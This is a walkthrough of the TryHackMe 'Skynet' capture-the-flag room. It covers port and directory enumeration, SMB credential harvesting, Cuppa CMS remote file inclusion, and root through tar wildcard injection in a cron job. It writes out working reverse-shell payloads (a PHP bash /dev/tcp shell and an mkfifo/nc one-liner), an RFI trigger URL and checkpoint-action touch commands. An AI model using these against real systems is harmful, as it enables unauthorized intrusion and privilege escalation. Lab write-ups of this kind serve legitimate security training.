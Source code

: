  TryHackMe - Skynet | Intermediate CTF Walkthrough

Platform: TryHackMe
Room: Skynet
Focus: Enumeration, SMB, POP3, IMAP, RFI Exploitation, Privilege Escalation via TAR Wildcards
🚀 TL;DR

    Port scanning via nmap

    Directory brute-force using gobuster

    SMB enumeration & credential harvesting

    Exploitation of Cuppa CMS (RFI)

    Privilege escalation via cronjob + tar wildcard injection

🔍 Enumeration Phase

Initial enumeration starts with a full TCP port scan:

nmap -sV -A -T4 <MACHINE_IP>

Open Ports Identified:

    80 (HTTP) → Web Interface

    139, 445 (SMB)

    110 (POP3)

    143 (IMAP)

The web interface displays a generic Skynet branding page — not much functionality. Time to fuzz directories:

gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40

📁 SMB Enumeration

Using smbclient and smbmap, we discover an anonymous share:

smbclient //IP/anonymous

Inside, a log1.txt file reveals possible user credentials and references to another share: milesdyson.
✉️ Mail Service Enumeration

We notice open POP3 and IMAP ports. Combining the earlier credentials, we access SquirrelMail, where emails hint at:

    CMS in use

    Samba password reset

    Potential exploit paths

💥 Web Exploitation: Cuppa CMS RFI

Revisiting the site and exploring hidden directories leads us to /45kra24zxs28v3yd/administrator — revealing a Cuppa CMS instance.

The source code discloses a vulnerable inclusion point:

<?php include($_REQUEST["urlConfig"]); ?>

Using a Remote File Inclusion (RFI) attack, we gain initial shell access via a reverse shell payload:

php -S 0.0.0.0:8000
nc -lvnp 1234

Payload:

<?php system("bash -c 'bash -i >& /dev/tcp/<tun0_ip>/1234 0>&1'"); ?>

Trigger via:

http://<ip>/vuln.php?urlConfig=http://<tun0_ip>:8000/shell.php

🧑‍💻 Privilege Escalation: TAR Wildcard Abuse

After shell access, local enumeration reveals a suspicious cronjob:

/home/milesdyson/backups/backup.sh

It uses the tar command to back up web files — but no input sanitization!

We abuse tar wildcard expansion to gain root:

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun0_ip> 4444 >/tmp/f' > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"

nc -lvnp 4444

Within a minute — 🔥 ROOT ACCESS OBTAINED.
🏁 Flags Captured

    user.txt ✅

    root.txt ✅

